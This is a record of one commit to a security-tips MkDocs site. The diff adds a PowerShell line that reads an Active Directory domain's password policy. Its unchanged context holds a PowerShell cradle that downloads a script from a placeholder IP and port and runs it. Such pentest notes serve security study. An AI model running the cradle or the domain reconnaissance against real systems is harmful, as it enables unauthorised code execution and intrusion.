

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 900 px high, scrolled down 8535 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add ADDefaultDomainPasswordPolicy

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -413,3 +413,9 @@ On the remote host, execute the following PowerShell script:
 ```powershell
 IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
 ```
+
+### Get Domain Password Policy
+
+```powershell
+$policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
+```
````
